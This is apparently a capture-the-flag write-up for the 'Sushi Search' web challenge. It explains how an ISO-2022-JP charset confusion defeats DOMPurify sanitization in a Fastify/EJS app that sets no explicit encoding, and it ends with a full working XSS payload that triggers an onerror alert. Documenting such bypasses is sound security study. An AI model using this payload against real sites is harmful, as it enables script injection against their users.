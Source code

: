 # Sushi Search - after the contest

so we have a simple Fastify application - here's the key point

```javascript
fastify.get("/search", async (req, reply) => {
    const query = req.query.search || "";

    const matchedItems = items.filter(
        (item) =>
            item.title.toLowerCase().includes(query.toLowerCase()) ||
            item.description.toLowerCase().includes(query.toLowerCase())
    );

    const window = new JSDOM("").window;
    const DOMPurify = createDOMPurify(window);
    const cleanQuery = DOMPurify.sanitize(query);

    const resp = await ejs.renderFile(path.resolve(__dirname, "views", "result.ejs"), {
        message: cleanQuery,
        items: matchedItems,
    });
    reply.type("text/html").send(resp);
});
```

The web application uses DOMPurify to sanitize user input from the search parameter, but has a critical flaw in how it handles character encoding. 
When a request is made to `/search`, the application doesn't explicitly set a character encoding in the Content-Type header. 
This allows an attacker to manipulate how the browser interprets the text by inserting special `ISO-2022-JP` escape sequences (`\x1b$B` and `\x1b(B`).
 While DOMPurify processes the input as *UTF-8* during sanitization, the browser can be tricked into interpreting the response as *ISO-2022-JP* due to these escape sequences. 
 This encoding differential creates a gap where certain characters get processed differently between sanitization and rendering phases. 
 
 As a result,we can craft a malicious payload that appears safe to DOMPurify when processed as UTF-8, but becomes dangerous javascript code when the browser interprets it as `ISO-2022-JP`.

```javascript
<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="><img%20src=x%20onerror=alert()%20></a>
```

